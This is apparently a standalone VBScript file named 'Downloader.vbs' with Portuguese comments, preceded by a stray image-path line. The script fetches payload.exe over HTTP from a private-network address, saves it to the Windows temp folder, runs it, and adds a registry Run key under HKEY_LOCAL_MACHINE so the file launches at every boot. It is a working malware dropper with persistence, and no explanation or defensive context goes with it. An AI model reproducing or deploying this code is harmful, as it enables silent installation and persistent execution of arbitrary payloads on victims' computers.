

# Downloader.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")

xHttp.Open "GET", "http://192.168.106.133/payload.exe", False 'Endereço do download
xHttp.Send

with bStrm
	.type = 1
	.open
	.write xHttp.responseBody
	.savetofile "c:\windows\temp\payload.exe", 2 'Caminho onde o arquivo será salvo
	end with

Set WshShell = WScript.CreateObject("WScript.Shell")
	WshShell.Run "c:\windows\temp\payload.exe", 1, false 'Execução do arquivo baixado

Const HKEY_LOCAL_MACHINE = &H80000002
strComputer = "."
Set objRegistry = GetObject("winmgmts:\\" & strComputer & "\root\default:StdRegProv")
	objRegistry.SetStringValue HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Payload", "c:\windows\temp\payload.exe" 'Configurando para iniciar automaticamente no próximo boot